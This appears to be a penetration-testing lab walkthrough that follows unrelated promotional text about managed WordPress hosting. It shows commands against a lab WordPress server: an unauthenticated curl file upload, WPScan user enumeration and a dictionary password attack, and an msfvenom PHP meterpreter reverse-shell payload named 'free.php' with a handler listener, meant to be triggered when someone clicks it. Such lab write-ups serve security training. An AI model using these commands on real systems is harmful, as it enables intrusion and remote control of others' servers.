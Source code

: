 Managed WordPress hosting is a distinct sub-category of web hosting configured to optimize sites built on this content management system.
WordPress is the world’s most popular CMS, with around 42.5% of all websites using it. This is why many web hosting companies offer managed WordPress hosting services.
Depending on the web host, WordPress hosting can fall under different web hosting categories. For example, different hosting providers may offer Shared WordPress hosting, VPS WordPress hosting, or Cloud WordPress hosting.
The advantages of hosting a WordPress site, there are many benefits to choosing a managed WordPress hosting plan over a regular shared web hosting service plan. Examples of 
Easier Setup -> Pre-installed plugins and themes help create an optimized wordpress host environment, easing technical setups and installations. 
Optimal Performance -> They use a server that has been configured specifically for WordPress sites, often built in caching software is also included to ensure fast loading speed. 
Up-to-date servers and software -> web hosts ensure their wordpress specific servers run the latest software, resulting in optimal compatibility and seamless performance. 
Hassle-free management -> Leave most of the WordPress technicalities to your web hosting plans and focus on other factors like improving search engine optimization strategies. 

After we ran nmap from our Kali Linux on our Windows Server 08, we can see that other ports are open as well, we will now exploit a wordpress site from the list below. 
![open ports](https://user-images.githubusercontent.com/93686063/201990303-3fc5f9b6-b9eb-4d42-8930-7c002deaecaa.JPG)

$`WPScan` is a helpful tool which can help us to enumerate a Wordpress site. It can look for credentials as well as information about the WordPress Site. According to W3Techs, 2022 Wordpress is used by 43.2% of all the websites on the Internet. Two out of every five websites on the Internet use WordPress. WPScan also has a password cracker, it can help check your website for weak authentication credentials. You would need to provide WPScan with a passwrod dictionary of your choosing. 

We will be exploiting the $`Apache httpd 2.2.21 (Win64) PHP/5.3.10 DAV/2` which is in port 8585 for the next exercise. If we type in the $`10.0.2.8:8585` we can see a Wampserver which is used to host a Wordpress website. Now we will see if we can upload anything on the site. First we will test out if we can upload a file into the server. we will do a regular $`echo` command in order to upload a file. $`echo "Hello World" > test.php` After we create the file, now we need to upload the file in the Wamp Server. 

In order to upload the file to the server, we use the $`curl` command. $` curl http://10.0.2.8:8585/uploads/ --upload-file test.php` We go back to the browser and see that the file has been uploaded. A MAJOR SECURITY VULNERABILITY. 
Before we use the WPScan, we need to update the db. After the update we do $`wpscan --url http://10.0.2.8:8585/wordpress -e(enumerate) vp(verbose), u(username)` This will do the scanning, under interesting findings it will have things that we can look for. It will also show users identified and if possible will get the passwords. 
We can now try to get the passwords by adding a dictionary password file. $`wpscan --url http://10.0.2.8:8585/wordpress --passwords /usr/share/wordlists/metasploit/password.lst` It will try to find the password using the values in the password file. You as an attacker will have to play around and see if you can add a different file to find the right password. It did not find any passwords, this is a tedious process so we might have to try different things in order to make sure we get the right. 


$`Now we will try a different method in order to get to the system using MSFVenom`


Now that we know that we can upload a file, we will be using msfvenom in order to get a meterpreter session. We will open a new terminal and first search for a `reverse_tcp`. We will type in $`msfvenom --list payloads | grep php` the grep command will look for payloads which have php on it. When we find it we will type $`msfvenom --payload php/meterpreter/reverse_tcp lhost=10.0.2.15 lport=4444 > free.php` this is create a payload and save it as `free.php` We will need to upload this `free.php` to the uploads folder so that when somebody clicks on it, then it will connect back to our listener. 

After this we will go back to the msfconsole, $`msf6 > use exploit/multi/handler`. Here we are setting up the listener. We want the user to connect back to me. After this we do options so as to see what parameters we need to set in order to use the exploit. We have to set the $`Lhost` and $`Lport` and we need to add the $`payload options` we will type in set payload options `php/meterpreter/reverse_tcp`. Hit $`Run` Once we go back to the browser and click on the new file that we just created, we should get the meterpreter shell. :-)
It looks like this. 

![shell](https://user-images.githubusercontent.com/93686063/202188651-55649925-88ba-49df-bd97-b36750468c41.JPG)




